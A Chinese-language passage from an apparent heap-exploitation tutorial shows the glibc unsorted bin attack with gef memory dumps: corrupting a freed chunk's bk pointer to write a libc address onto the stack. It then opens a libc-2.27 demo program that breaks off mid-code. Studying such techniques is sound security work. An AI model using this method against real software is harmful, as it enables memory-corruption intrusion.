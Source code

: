 首先分配两个 chunk，然后释放掉第一个，它将被加入到 unsorted bin 中：

```text
gef➤  x/26gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 1 [be freed]
0x602010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000090	0x0000000000000020  <-- chunk 2
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000020f51  <-- top chunk
0x6020c0:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx &stack_var-2
0x7fffffffdc50:	0x00007fffffffdd60	0x0000000000400712
0x7fffffffdc60:	0x0000000000000000	0x0000000000602010
gef➤  heap bins unsorted
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)
```

然后假设存在一个溢出漏洞，可以让我们修改 chunk 1 的数据。然后我们将 chunk 1 的 bk 指针修改为指向目标地址 - 2，也就相当于是在目标地址处有一个 fake free chunk，然后 malloc：

```text
gef➤  x/26gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 3
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdc50
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000090	0x0000000000000021  <-- chunk 2
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000020f51  <-- top chunk
0x6020c0:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx &stack_var-2
0x7fffffffdc50:	0x00007fffffffdc80	0x0000000000400756  <-- fake chunk
0x7fffffffdc60:	0x00007ffff7dd1b78	0x0000000000602010      <-- fd->TAIL
```

从而泄漏了 unsorted bin 的头部地址。

那么继续来看 libc-2.27 里怎么处理：

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
```